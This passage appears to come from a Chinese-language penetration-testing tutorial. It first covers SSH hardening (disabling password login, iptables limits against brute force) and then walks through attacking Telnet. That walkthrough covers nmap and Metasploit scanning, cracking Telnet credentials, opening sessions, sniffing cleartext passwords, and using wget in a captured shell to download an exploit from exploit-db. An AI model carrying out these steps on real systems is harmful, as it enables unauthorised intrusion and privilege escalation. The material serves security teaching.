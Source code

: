     - `sudo gedit /etc/ssh/sshd_config`            #PasswordAuthentication  yes  =>  PasswordAuthentication  no
    - `service ssh restart`

  - 缺点：不能使用用户密码登录，很大程度上存在复杂操作。

- SSH安全防御——Iptables设置阈值防止暴力破解

  - 利用Iptables对多次连接验证错误，进行账户锁定120秒。

    ```
    iptables -I INPUT -p tcp --dport 22 -i eth0 -m state --state NEW -m recent --set
    iptables -I INPUT -p tcp --dport 22 -i eth0 -m state --state NEW -m recent --update --seconds 120 --hitcount 3 -j DROP
    ```

  - 在设置完之后，需要重新启动ssh服务。



### Telnet漏洞利用

- Telnet介绍

  - Telnet协议是TCP/IP协议族中的一员，是Internet远程登陆服务的标准协议和主要方式。它为用户提供了在本地计算机上完成远程主机工作的能力。在终端使用者的电脑上使用telnet程序，用它连接到服务器。终端使用者可以在telnet程序中输入命令，这些命令会在服务器上运行，就像直接在服务器的控制台上输入一样。
  - 虽然Telnet较为简单实用也很方便，但是在格外注重安全的现代网络技术中，Telnet并不被重用。原因在于Telnet是一个明文传送协议，它将用户的所有内容，包括用户名和密码都明文在互联网上传送，具有一定的安全隐患、因此许多服务器都会选择禁用Telnet服务。如果我们要使用Telnet的远程登录，使用前应在远端服务器上检查并设置允许Telnet服务的功能。
  - **Telnet服务端默认情况下使用23端口。**

- telnet版本获取

  - 使用nmap获取telnet版本信息`nmap -p23 -sV 192.168.31.72`，或者使用metasploit获取对应版本信息`use auxiliary/scanner/telnet/telnet_version`

- telnet密码破解

  - 使用metasploit下针对telnet破解的模块进行用户名和密码的破解。
  - 在msfconsole下使用search telnet进行查询telnet可以利用的模块。

- telnet登录测试

  - 使用破解好的会话连接telnet，并执行对应命令。
  - 使用`sessions -l`查看建立的会话；使用`sessions -i id`使用对应的会话。

- telnet客户端连接telnet服务器

  - windows下开启telnet客户端，连接telnet服务端。

- telnet明文密码传输

  - 使用wireshark抓取telnet数据包。

- msf登录telnet

  - 在metasploit中使用telnet_login进行登录，并使用`session -i id`连接shell。

- msf连接shell下载exp

  - 使用wget进行下载。`wget http://www.exploit-db.com/download/8572`
  - 【需将文件最后一行去掉，否则执行编译时会报错。】
